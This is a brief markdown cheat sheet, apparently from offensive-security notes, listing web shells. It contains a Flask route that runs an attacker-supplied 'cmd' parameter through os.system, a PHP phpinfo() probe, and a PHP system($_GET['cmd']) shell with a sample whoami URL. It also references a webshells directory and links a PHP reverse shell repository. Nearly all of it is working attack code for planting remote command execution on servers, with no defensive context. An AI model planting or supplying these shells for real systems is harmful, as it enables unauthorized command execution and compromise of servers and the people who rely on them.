 # Routes

`/usr/share/webshells`

### Languages

### Python

```python
@app.route('/rs')
def rce():
    return os.system(request.args.get('cmd'))
```

### PHP

Test if data can render:

```php
# Initial test, gather info
<?php phpinfo(); ?>

# RCE (exmaple execution: example.com/uploads/shell.php?cmd=whoami)
<?php system($_GET['cmd']); ?>
```

### Shells

XAMPP Shells: https://github.com/ivan-sincek/php-reverse-shell/tree/master

